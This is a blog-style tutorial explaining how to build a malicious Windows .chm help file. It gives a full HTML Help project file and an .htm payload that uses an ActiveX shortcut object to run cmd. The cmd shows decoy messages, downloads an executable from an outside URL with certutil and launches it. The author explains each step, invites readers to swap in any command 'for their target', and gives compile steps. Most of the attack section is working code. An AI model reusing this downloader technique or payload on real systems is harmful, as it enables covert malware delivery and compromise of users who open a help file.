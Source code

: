 ```yaml
---
title: "Build Malicious CHM (Help) file"
tags:
- Malware
---
```



Hey everyone. May have a nice day! So today I'm gonna explain how a help (.chm) file could be a malicious file in Windows machine.

First, we need to clarify what is .chm file and what its function.

Based on this [website](https://whatis.techtarget.com/fileformat/CHM-Compiled-HTML-file),

CHM is an extension for the Compiled HTML file format, most commonly used by Microsoft’s HTML-based help program. It may contain many compressed HTML documents and the images and JavaScript they link to. CHM features include a table of contents, index, and full text searching.

So, basically user will click this file to see program's manual, details and so on in windows. But, nowadays... only a few amount of people read (click) this CHM file . So, this malicious chm or attack may not cool enough to be a malicious file because of less uses in wild attacks nowadays hahaha.

Example of CHM file
![enter image description here](http://www.create-chm.com/content/pages/about-chm/images/chm-file-viewer.png)

So, how can this .chm file format can be malicious or how to make it malicious that can download file / execute  code?

Here a write-up on how to make a malicious "help documentation" (chm).

## Let's go!

To build a CHM file, first you need an HTML help project (.hhp) file which is a text configuration file.

Here is an example of .hhp file:
```
[OPTIONS]
Compatibility=1.1 or later
Compiled file=malicious.chm
Default topic=malicious.htm
Display compile progress=No
Language=0x410 Italian (Italy)

[FILES]
malicious.htm

[INFOTYPES]
``` 
Save it as `malicous.hhp`.

Next, create `.htm` file for our HTML source where this file will be our weapon to execute code.
I named it as `malicious.htm`.

Here is the content of the `malicious.htm` file:
```
<html>
<title> Malicious CHM </title>
<head>
</head>
<body>

<h2 align=center> Malicious CHM </h2>
<p>
<h3 align=center> This is a malicious CHM file </h3>
</p>
</body>
</html>

<OBJECT id=shortcut classid="clsid:52a2aaae-085d-4187-97ea-8c30db990436" width=1 height=1>
<PARAM name="Command" value="ShortCut">
<PARAM name="Button" value="Bitmap:shortcut">
<PARAM name="Item1" value=",cmd,/c echo HTML Help Executable may be stopped working... & echo Process is running, please don't close this... & certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Testing/raw/master/malicious.exe c:\mal.exe & start c:\mal.exe">
<PARAM name="Item2" value="273,1,1">

</OBJECT>
<SCRIPT>
shortcut.Click();
</SCRIPT>
```

Ok now I'm gonna explain the execution code.

The execution code will happen in this line. Note here that, you can replace the execution code with your own desired. :)
```
<PARAM name="Item1" value=",cmd,/c echo HTML Help Executable may be stopped working... & echo Process is running, please don't close this... & certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Testing/raw/master/malicious.exe c:\mal.exe & start c:\mal.exe">
```
The next line meaning that I tell the command prompt to print these words to user because the next command "`certutil.exe`" require some seconds to do its job. 

    echo HTML Help Executable may be stopped working... & echo Process is running, please don't close this...
    
The next line is "`certutil.exe`" command. Certutil.exe is a Windows binary used for handling certificates and also can work as our downloader agent to download our malicious binary. Refer [this](https://lolbas-project.github.io/lolbas/Binaries/Certutil/) for more detail about the binary.

```
certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Testing/raw/master/malicious.exe c:\mal.exe
```
Because cerutil.exe takes some times to download our binary, the process execution will be slow too. This make our chm file will display "HTML Help Executable stopped working". If you replaced this code to make an only execution without downloading, CHM will work perfectly without prompting "stopped working" msgbox.

And last line is..
```
& start c:\mal.exe
```
Its function is too execute our malicious binary. 

You can replace the execution code with anything you want include execution of batch file, powershell and so forth (follow your creativity and target).

Now we have these files on our machine. So, the next step is to compile this file to generate our chm file.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciouschm/maliciouschm2.PNG){: .align-center}

To generate the CHM file. You can do this using "HTML Help Workshop". 
Download at Official Microsoft website [here](https://www.microsoft.com/en-my/download/details.aspx?id=21138).

Open HTML Help Workshop ---> Go to `File` ---> Click `compile` ---> Choose our `.hhp` file. ---> HTML Help Workshop will compile for us and give us the malicious chm file.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciouschm/maliciouschm11.PNG){: .align-center}

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciouschm/maliciouschm3.PNG){: .align-center}

Now double click on your help file to check it worked!

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciouschm/maliciouschm4.PNG){: .align-center}

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciouschm/maliciouschm5.PNG){: .align-center}

Now, our code is successfully execute. It download our binary and then start our malicious binary.

So, from here you can get a big picture on how chm file could be another hackers weapon to execute their code.

Orite, goodbye!
